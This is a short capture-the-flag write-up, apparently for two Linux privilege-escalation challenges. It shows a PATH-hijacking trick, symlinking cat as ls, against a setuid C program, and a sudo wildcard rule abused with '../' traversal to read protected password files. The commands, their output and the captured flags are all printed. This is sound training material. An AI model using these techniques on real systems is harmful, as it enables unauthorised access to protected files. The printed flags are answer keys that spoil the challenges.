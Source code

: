 # Bash - System 1
Source 
```C
#include <stdlib.h>
#include <stdio.h>
 
/* gcc -m32 -o ch11 ch11.c */
 
int main(void) 
{
	system("ls /challenge/app-script/ch11/.passwd"); 
	return 0;
}
```
Solve
```assembly
app-script-ch11@challenge02:/tmp/tmp1$ mkdir /tmp/tmp1/
mkdir: cannot create directory ‘/tmp/tmp1/’: File exists
app-script-ch11@challenge02:/tmp/tmp1$ export PATH="/tmp/tmp1:${PATH}"
app-script-ch11@challenge02:/tmp/tmp1$ ln -s /bin/cat ls
ln: failed to create symbolic link ‘ls’: File exists
app-script-ch11@challenge02:/tmp/tmp1$ ~/ch11
!oPe96a/.s8d5
```

Flag is : ```!oPe96a/.s8d5```

# sudo - weak configuration

by using the command : `sudo -l` We can see our rights in the sudo world. And as the command says :
```assembly
app-script-ch1@challenge02:~$ sudo -l
Matching Defaults entries for app-script-ch1 on challenge02:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, !mail_always, !mail_badpass, !mail_no_host, !mail_no_perms, !mail_no_user

User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/ch1/*
```
’*’ being a good soldier, it can be replaced by everything... even ’../’
So, to get the file /shell1cracked/.flag we can use :
```assembly
app-script-ch1@challenge02:~$ sudo -u app-script-ch1-cracked  cat /challenge/app-script/ch1/ch1/../ch1cracked/.passwd
b3_c4r3full_w1th_sud0
```
Flag is : ```b3_c4r3full_w1th_sud0```

